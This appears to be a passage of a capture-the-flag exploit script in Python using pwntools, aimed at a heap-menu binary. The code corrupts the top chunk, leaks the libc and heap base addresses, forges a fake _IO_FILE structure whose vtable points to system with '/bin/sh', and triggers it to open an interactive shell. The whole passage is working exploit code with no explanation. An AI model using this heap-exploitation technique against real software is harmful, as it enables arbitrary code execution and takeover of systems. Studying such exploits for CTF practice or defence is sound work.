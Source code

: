  ```python
 
 def edit(length, name, price, color):
  p.sendlineafter(': ', '3')
  p.sendlineafter(':', str(length))
  p.sendafter(':', name)
  p.sendlineafter(':', str(price))
  p.sendlineafter(':', str(color))
 
 #gdb.attach(p)
 
 
 add(0x10, 'verf1sh', 0x10, 1)
 
 edit(0x40, 'a'*0x18+p64(0x21)+p32(0x10)+p32(0x1f)+p64(0)*2+p64(0xfa1), 0x10, 1)
 add(0x1000, 'verf1sh', 0x10, 1)
 
 # leak libc_base
 add(0x400, 'a'*8, 0x10, 1)
 show()
 p.recvuntil('a'*8)
 libc_base = u64(p.recv(6).ljust(8, '\x00')) - 1640 - 0x10 - libc.sym['__malloc_hook']
 success('libc_base -> {}'.format(hex(libc_base)))
 _IO_list_all = libc_base + libc.sym['_IO_list_all']
 system = libc_base + libc.sym['system']
 
 # leak heap_base
 edit(0x10, 'a'*0x10, 0x10, 1)
 show()
 p.recvuntil('a'*0x10)
 heap_base = u64(p.recv(6).ljust(8, '\x00')) & 0xfffffffff000
 success('heap_base -> {}'.format(hex(heap_base)))
 # pause()
 
 # fsop
 payload = 'a'*0x400 + p64(0) + p64(0x21) + p32(0x10) + p32(0x1f) + p64(0)
 fake_file = '/bin/sh\x00' + p64(0x61)
 fake_file += p64(0) + p64(_IO_list_all - 0x10)
 fake_file += p64(0) + p64(1) #_IO_write_base < _IO_write_ptr
 fake_file = fake_file.ljust(0xc0,'\x00')
 fake_file += p64(0) * 3
 fake_file += p64(heap_base+0x5c8) #vtable ptr
 fake_file += p64(0) * 2
 fake_file += p64(system)
 payload += fake_file
 edit(len(payload), payload, 16, 1)
 # pause()
 p.sendlineafter(': ', '1')
 
 p.interactive()
 ```
